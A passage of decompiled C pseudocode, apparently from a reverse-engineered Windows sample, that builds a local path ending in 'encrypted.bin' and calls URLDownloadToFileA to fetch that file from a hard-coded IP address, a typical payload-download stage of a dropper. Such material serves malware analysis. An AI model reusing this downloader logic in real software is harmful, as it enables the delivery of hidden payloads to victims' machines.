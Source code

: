 ```c
    }
    while ( v1 );
    v4 = v2 - 1;
    if ( v1 )
      v4 = v2;
    v5 = 260;
    *v4 = 0;
    v6 = v40;
    do
    {
      if ( !*v6 )
        break;
      ++v6;
      --v5;
    }
    while ( v5 );
    v7 = 260 - v5;
    if ( v5 )
    {
      v8 = &v40[v7];
      v9 = 260 - v7;
      if ( v7 != 260 )
      {
        v10 = 2147483646;
        v11 = (char *)("\\encrypted.bin" - v8);
        do
        {
          if ( !v10 )
            break;
          v12 = v8[(_QWORD)v11];
          if ( !v12 )
            break;
          *v8 = v12;
          --v10;
          ++v8;
          --v9;
        }
        while ( v9 );
      }
      v13 = v8 - 1;
      if ( v9 )
        v13 = v8;
      *v13 = 0;
    }
    URLDownloadToFileA(0, "https://10.10.70.114/encrypted.bin", v40, 0, 0);
  }
  v14 = 260;
  v15 = v41;
  do
  {
    if ( v14 == -2147483386 )
      break;
    v16 = v15[pszPath - v41];
    if ( !v16 )
      break;
    *v15++ = v16;
    --v14;
  }
  while ( v14 );
  v17 = v15 - 1;
  if ( v14 )
    v17 = v15;
  v18 = 260;
```